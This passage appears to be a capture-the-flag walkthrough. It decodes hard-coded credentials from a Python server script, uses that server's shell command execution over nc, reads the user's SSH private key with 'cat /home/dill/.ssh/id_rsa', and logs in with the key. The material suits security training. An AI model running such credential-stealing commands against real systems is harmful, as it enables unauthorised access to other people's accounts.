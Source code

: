 ```python
    main()
```

First of all we see 2 variables `username/password` :

```python
username = long_to_bytes(1684630636)
password = long_to_bytes(2457564920124666544827225107428488864802762356L)
```

Let's print them.

```python
>>> from Crypto.Util.number import long_to_bytes
>>> print long_to_bytes(1684630636)
dill
>>> print long_to_bytes(2457564920124666544827225107428488864802762356L)
n3v3r_@_d1ll_m0m3nt
>>> 
```

Perfect so we have some creds `dill:n3v3r_@_d1ll_m0m3nt`.

Then we can see the script opens a server on port `7321` :

```python
print('Starting server...')
port = 7321
host = '0.0.0.0'
```    

And we can have command execution :

```python
command = self.receive('Cmd: ')
p = subprocess.Popen(command,shell=True, stdout=(subprocess.PIPE), stderr=(subprocess.PIPE))
```

Let's test it out!

```bash
gherkin@ubuntu-xenial:~$ nc localhost 7321
Username: dill
Password: n3v3r_@_d1ll_m0m3nt
Successfully logged in!
Cmd: whoami
dill
```

Here we go! Let's take dill's ssh private key and login in.

```bash
Cmd: cat /home/dill/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
... data ...

Cmd: ^C
gherkin@ubuntu-xenial:~$ touch /tmp/key; chmod 600 /tmp/key
gherkin@ubuntu-xenial:~$ nano /tmp/key
gherkin@ubuntu-xenial:~$ ssh -i /tmp/key dill@localhost
dill@ubuntu-xenial:~$ 
```
